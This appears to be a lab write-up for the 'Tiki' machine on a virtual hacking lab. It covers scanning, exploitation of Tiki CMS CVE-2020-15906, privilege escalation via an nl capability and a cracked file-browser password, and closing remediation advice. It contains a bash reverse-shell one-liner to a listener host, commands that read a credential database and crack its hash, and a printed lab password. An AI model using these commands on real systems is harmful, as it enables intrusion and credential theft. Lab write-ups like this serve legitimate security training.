#  Tiki - Virtual Hacking Lab

| Info          | Details                                                                       |
| ------------- | ----------------------------------------------------------------------------- |
| Platform      | Virtual Hacking Lab                                                           |
| Difficulty    | Advance                                                                       |
| Target IP     | 10.11.1.39                                                                    |
| OS            | Linux                                                                         |
| Vulnerability | Web RCE (CVE-2020-15906), Weak Credential Storage, Misconfigured Capabilities |
| Tools Used    | Nmap, Gobuster, Searchsploit, Netcat, John the Ripper, LinPEAS                |

## Attack Path

1. Nmap identified HTTP services and file browser (8080).
2. Tiki CMS identified on port 80.
3. Public RCE exploit (CVE-2020-15906) used to gain shell.
4. Initial access obtained as **apache**.
5. Misconfigured capability (`nl`) allowed reading sensitive files.
6. Extracted credentials from `filebrowser.db`.
7. Password cracked using John the Ripper.
8. Logged into file browser on port 8080.
9. Abused shell execution feature to gain **root access**.
10. Retrieved flag.

## Environment Setup

First, create a working directory and files to organize enumeration results.

```bash
mkdir tiki
cd tiki
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```
## Network Scanning

Identify the target IP and perform a full port scan.

```bash
ip='10.11.1.39'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



Results: Discovered service: ssh, http (port 80), mysql, http (port 8080)
## Web Enumeration

Web App page: Default homepage for tiki wiki cms groupware



Directory brute forcing with Gobuster and dirsearch.

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42
```

Gobuster:



Interesting Directory:

```bash
/admin
/db
/docs
```

Results: All directory redirect to the default webpage

## Further HTTP enumeration (Port 8080)

Webpage Enumeration: Indicate a file browser login interface.



## Vulnerability Search

```bash
### github
https://github.com/vulhub/vulhub/blob/master/tikiwiki/CVE-2020-15906/poc.py

python3 exploit.py 10.11.1.39 / "bash -i >& /dev/tcp/172.16.1.1/4444 0>&1"

sudo nc -lnvp 4444
```



Results: Successfully obtained a reverse shell.
## Initial Access

```bash
# Identify Users
whoami
id
```



Results: Shown user as apache

Check capabilities:

```bash
getcap -r / 2>/dev/null
```



From the capabilities found 
- `/usr/bin/nl` - This allows reading **restricted files regardless of permissions**.

Also found `filebrowser.db`

```bash
# read the file
/usr/bin/nl /var/www/html/filebrowser.db
```



Results: found user tiki and the hash

Crack the passwords

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt tiki.hash

john --show --format=bcrypt tiki.hash
```



Results: shown password tiki::mimamamemima

Login to port **8080** using recovered credentials:



Navigate to `Setting > Global Settings > Execute on Shell ` enter `/bin/bash -c`



Now navigate to `Toggle Shell`

```bash
whoami
id
dates
cat /root/key.txt
```



# Remediation

### 1. Patch Vulnerable Software

- Update Tiki CMS to a secure version.
- Apply patches for: `CVE-2020-15906`

---

### 2. Restrict Web Application Features

- Disable dangerous features such as: Shell execution from web interface

---

### 3. Secure Sensitive Files

- Restrict access to: `/var/www/html/filebrowser.db`
- Store credentials securely and outside web directories.

---

### 4. Remove Dangerous Capabilities

- Remove unnecessary capabilities such as: `cap_dac_read_search`

---

### 5. System Hardening

- Apply least privilege principle.
- Regularly audit permissions and binaries.
- Remove unnecessary services.

---
